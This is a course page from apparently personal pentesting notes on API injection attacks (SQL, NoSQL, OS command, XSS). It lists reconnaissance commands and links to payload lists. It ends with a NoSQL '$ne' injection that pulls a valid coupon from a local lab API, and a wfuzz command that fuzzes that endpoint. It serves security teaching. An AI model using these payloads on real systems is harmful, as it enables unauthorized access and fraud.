 ```yaml
---
title: Injection attacks
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - api
---
```


# Injection Attacks

??? abstract "General index of the course"
    - [Setting up the environment](setting-up-kali.md)
    - [Api Reconnaissance](api-reconnaissance.md).
    - [Endpoint Analysis](endpoint-analysis.md).
    - [Scanning APIS](scanning-apis.md).
    - [API Authorization Attacks](api-authentication-attacks.md).
    - [Exploiting API Authorization](exploiting-api-authorization.md).
	- [Testing for Improper Assets Management](improper-assets-management.md).
    - [Mass Assignment](mass-assignment.md).
    - [Server side Request Forgery](server-side-request-forgery-ssrf.md).
    - [Injection Attacks](injection-attacks.md). 
    - [Evasion and Combining techniques](evasion-combining-techniques.md).
    - [Setting up the labs + Writeups](other-labs.md)

The art of fuzzing is knowing which payload to send in the right request with the right tool.

- Right payload can be narrow with reconnaissance.
- Right requests are those that include user input (+ headers + url paths)
- Right tool depends on strategy in fuzzing.

Yes, when fuzzing we need **a strategy**.

**1**. Identify endpoints (those where client input can interact with a database).

**2**. Fuzzing and analyzing responses.

**3**. Analyze responses:

	- Verbose error message
	- Response code
	- Time in response.

**4**. Identify technolofy, version, services behind, security controls.



## SQL injections

[More aboyut SQL injectios](../sql-injection.md). | [How to perform a manual attack in SQL](../sqli-manual-attack.md) |  [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/SQL-injection.md) |  [Tools: SQLmap](../sqlmap.md)


## NOSQL injections

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/nosql-injection.md). 

API commonly use NOSQL databases due to the fact that they scale well.  These databases have unique structures, modes of querying... Requests will be alike but payloads may vary. 


## Operating System Command Injection

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/operating-system-command-injection.md)

Some common operatiing system commands that are used in Injection attacks: 

- ipconfig
- dir
- ver
- whoami
- ifconfig
- ls
- pwd
- whoami

Target:

- URL query string
- Requests parameters
- headers
- requests that throw verbose error messages 

Techniques:

- Pairing multiple commands in a single line.


## XSS  Cross-Site Scripting

[More about Cross-Site Scripting](../cross-site-scripting-xss.md) | [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/cross-site-scripting-xss.md) 



## Using wfuff

Having this request:

```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
host: localhost:8888
accept: */*
origin: http://localhost:8888
referer: http://localhost:8888/shop
Connection: close
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
content-type: application/json
Content-Length: 29
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
Accept-Encoding: gzip, deflate
accept-language: en-US,en;q=0.5
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg
Cache-Control: no-cache
Postman-Token: 5eb2f69b-6f89-460b-a49f-96c12edc9906

{"coupon_code":{"$ne":"-1"} }
```


And this response:

```
HTTP/1.1 200 OK
Server: openresty/1.17.8.2
Date: Mon, 06 Feb 2023 16:05:31 GMT
Content-Type: application/json
Connection: close
Access-Control-Allow-Headers: Accept, Content-Type, Content-Length, Accept-Encoding, X-CSRF-Token, Authorization
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE
Access-Control-Allow-Origin: *
Content-Length: 79

{"coupon_code":"TRAC075","amount":"75","CreatedAt":"2022-11-11T19:22:26.134Z"}
```

We can use wfuzz like this:

```bash
wfuzz -z file,/usr/share/wordlists/nosql.txt -H "Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg" -H "Content-Type: application/json" -d "{\"coupon_code\":FUZZ}" --sc 200 -p localhost:8080 http://localhost:8888/community/api/v2/coupon/validate-coupon
# -p localhost:8080 Redirect traffic to BurpSuite
# --sc 200 Show code response 200
```


